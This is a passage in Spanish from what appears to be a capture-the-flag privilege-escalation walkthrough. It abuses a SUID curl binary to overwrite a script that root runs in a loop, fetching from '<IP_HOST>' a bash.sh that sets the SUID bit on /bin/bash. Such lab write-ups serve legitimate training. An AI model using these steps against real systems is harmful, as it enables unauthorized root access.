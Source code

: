 Por lo que vemos en esta linea:

```
root           1 31.2  0.0   2800  1920 ?        Rs   14:26   5:27 /bin/sh -c service smbd start && service ssh start && while true; do /bin/bash /usr/local/bin/bash.sh; done
```

`root` esta ejecutando en bucle un archivo llamado `bash.sh` en `/usr/local/bin/` veremos a ver que permisos tiene.

```shell
ls -la /usr/local/bin/bash.sh
```

Info:

```
-rwxr-xr-x 1 root root 1 Sep  2 13:51 /usr/local/bin/bash.sh
```

Vemos que tiene unos permisos normales, por lo que no podremos editarlo, pero como hemos visto antes, tenemos el `curl` con permisos de `SUID`, por lo que podremos hacer lo siguiente.

En nuestra maquina host crearemos un archivo que se llame igual al de la maquina victima.

> bash.sh

```shell
nano bash.sh

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
```

Lo guardamos y abriremos un servidor de `python3` en la maquina host.

```shell
python3 -m http.server 80
```

Ahora en la maquina victima aprovecharemos los permisos de `SUID` del binario `curl` y nos iremos al siguiente directorio.

```shell
cd /usr/local/bin/
```

Dentro de aqui utilizaremos `curl` para sustituir el archivo `bash.sh` por el contenido de nuestro `hsot`.

```shell
curl -O http://<IP_HOST>/bash.sh
```

Info:

```
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    34  100    34    0     0   6930      0 --:--:-- --:--:-- --:--:--  8500
```
